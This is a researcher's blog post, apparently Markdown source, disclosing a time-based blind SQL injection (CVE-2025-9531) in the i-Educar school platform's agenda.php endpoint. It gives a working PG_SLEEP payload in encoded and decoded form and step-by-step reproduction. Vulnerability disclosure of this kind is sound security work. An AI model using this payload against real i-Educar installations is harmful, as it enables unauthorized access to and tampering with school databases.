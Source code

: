 ```yaml
---
weight: 1
title: "CVE-2025-9531"
date: 2025-08-27T21:29:01+08:00
draft: false
authors: ["Karina"]
description: "How I Found a Time-Based Blind SQL Injection in i-Educar (With Real Delay and PoC)"
featuredImage: "/images/CVE-2025-9531/CVE-2025-9531.png"

tags: ["SQL Injection", "i-Educar", "CVE-2025-9531", "Blind SQLi", "Cybersecurity"]
categories: ["CVE"]
lightgallery: true
license: '<a rel="license external nofollow noopener noreferrer" href="https://creativecommons.org/licenses/by-nc/4.0/" target="_blank">CC BY-NC 4.0</a>'
toc:
  auto: false
---
```


How I Found a **Time-Based Blind SQL Injection** in i-Educar (With Real Delay and PoC).

<!--more-->

> ***🇧🇷 Ler em [Português](http://karinagante.github.io/pt-br/cve-2025-9531).***

## CVE-2025-9531

### Introduction

<p align="justify">While diving into the <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b> Open-Source project, I uncovered a critical time-based blind SQL Injection vulnerability in the <b>cod_agenda</b> parameter of the <b>agenda.php</b> endpoint. </br> This flaw allows attackers to execute arbitrary SQL queries silently against the backend database, putting data confidentiality, integrity, and availability at risk. </br> After validating the issue using a payload that caused measurable delays in the server's response, I reported it responsibly, and it was officially assigned as <b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b>. </p>

### What is CVE-2025-9531?

<p align="justify"><b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b> is a SQL Injection vulnerability in the <b>/intranet/agenda.php</b> endpoint of the <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b> application. </br> The vulnerable parameter is <b>cod_agenda</b>, which lacks proper input validation. </br> This makes it possible to inject custom SQL queries, including <code>PG_SLEEP()</code> functions that introduce time delays, confirming the flaw via time-based behavior. </p>

### Technical Details

➤ **Vulnerable Endpoint** `/intranet/agenda.php`

➤ **Affected Parameter:** `cod_agenda`

> ➤ **Payload Used (Encoded)**
> ```sql
>%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
>```

> ➤ **Payload Used (Decoded)**
> ```sql
>' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
>```

### Proof of Concept (PoC)

To reproduce the vulnerability:

➤ Access the vulnerable endpoint and click **"Novo Compromisso"** (New Appointment)

➤ Fill in the required fields and click **"Salvar"** (Save)

➤ The system redirects to a URL like:

```URL
http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283
```
<br>
➤ Now, modify the `cod_agenda` parameter with the payload:

```URL
/intranet/agenda.php?cod_agenda=2' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
```
> <p align="justify">The server will take 5 seconds to respond, confirming that the SQL query was executed successfully.</p>

<p align="center">
<img src="/images/CVE-2025-9531/PoC1.png"><br>
</p>

{{<admonition tip Report>}}
You can access the full report and see the complete step-by-step instructions. Here:

{{< fa-icon regular github >}}
***[CVE-2025-9531 Report](https://github.com/KarinaGante/KG-Sec/blob/main/CVEs/i-Educar/CVE-2025-9531.md)***
{{< /admonition >}}

### Impact

This vulnerability can be exploited to:

- Access sensitive data stored in the database;
- Enumerate database schemas, tables, and columns;
- Modify, delete, or insert arbitrary records;
- Steal user credentials and personal information;
- Perform a denial of service (DoS) attack by triggering long query delays;
- In some cases, escalate to Remote Code Execution (RCE).

### Official Sources

The flaw was ethically reported and attributed as:

{{< admonition important References>}} 
{{< fa-icon regular shield >}}
***[CVE-2025-9531 on CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-9531)***

{{< fa-icon regular database >}} 
***[VulDB Entry](https://vuldb.com/?id.321550)***
{{< /admonition >}}

### Conclusion

<p align="justify">SQL injection attacks remain one of the most critical threats to web applications, especially when silent and time-based. This discovery demonstrates how a single unvalidated parameter can compromise the entire database behind a platform. </br></br> If you're a developer or security analyst, be aware: <b>even small, seemingly harmless endpoints can hide dangerous flaws.</b></p>

## Credits

***Discovered with 💜 by [Karina Gante](https://karinagante.github.io/).***

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

> ***Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹***